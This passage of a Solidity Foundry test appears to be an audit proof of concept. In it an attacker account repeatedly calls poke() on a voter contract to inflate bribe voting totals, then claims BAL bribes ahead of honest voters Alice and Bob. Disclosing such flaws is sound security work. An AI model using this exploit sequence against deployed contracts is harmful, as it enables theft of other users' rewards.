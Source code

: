 ```solidity
        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 5000;

        address[] memory bribes = new address[](1);
        bribes[0] = address(bribeAddress);
        address[][] memory tokens = new address[][](2);
        tokens[0] = new address[](1);
        tokens[0][0] = bal;

        hevm.prank(attacker);
        voter.vote(tokenId1, pools, weights, 0);
        console2.log("totalVoting after vote(): %", IBribe(bribeAddress).totalVoting());
        console2.log("Call voter poke()"); 
        hevm.startPrank(attacker);
        voter.poke(tokenId1);
        console2.log("totalVoting after poke(): %", IBribe(bribeAddress).totalVoting());        
        hevm.stopPrank();

        hevm.prank(Alice);
        voter.vote(tokenId2, pools, weights, 0);

        hevm.prank(Bob);
        voter.vote(tokenId3, pools, weights, 0);

        uint256 earnedBribes0 = IBribe(bribeAddress).earned(bal, tokenId1);
        assertEq(earnedBribes0, 0, "no bribes should be earned yet"); 
        console2.log("earnedBribes0", earnedBribes0); 

        earnedBribes2 = IBribe(bribeAddress).earned(bal, tokenId2); 
        console2.log("earnedBribes2", earnedBribes2); 

        earnedBribes3 = IBribe(bribeAddress).earned(bal, tokenId3); 
        console2.log("earnedBribes3", earnedBribes3);

        console2.log("Fast forward 1 epoch"); 
        hevm.warp(newEpoch()); 
        
        hevm.startPrank(attacker);
        voter.poke(tokenId1);
        hevm.stopPrank();

        uint256 earnedBribes1 = IBribe(bribeAddress).earned(bal, tokenId1); 
        console2.log("earnedBribes1", earnedBribes1); 

        hevm.prank(attacker);
        voter.claimBribes(bribes, tokens, tokenId1);
        console2.log("Bal balance of attacker: %s", IERC20(bal).balanceOf(attacker)); 
        
        earnedBribes2 = IBribe(bribeAddress).earned(bal, tokenId2); 
        console2.log("earnedBribes2", earnedBribes2); 

        earnedBribes3 = IBribe(bribeAddress).earned(bal, tokenId3); 
        console2.log("earnedBribes3", earnedBribes3);        

        hevm.prank(Alice);
        voter.claimBribes(bribes, tokens, tokenId2);
        console2.log("Bal balance of Alice: %s", IERC20(bal).balanceOf(Alice)); 
        
        hevm.prank(Bob);
        voter.claimBribes(bribes, tokens, tokenId3); 
        console2.log("Bal balance of Bob: %s", IERC20(bal).balanceOf(Bob)); 
```
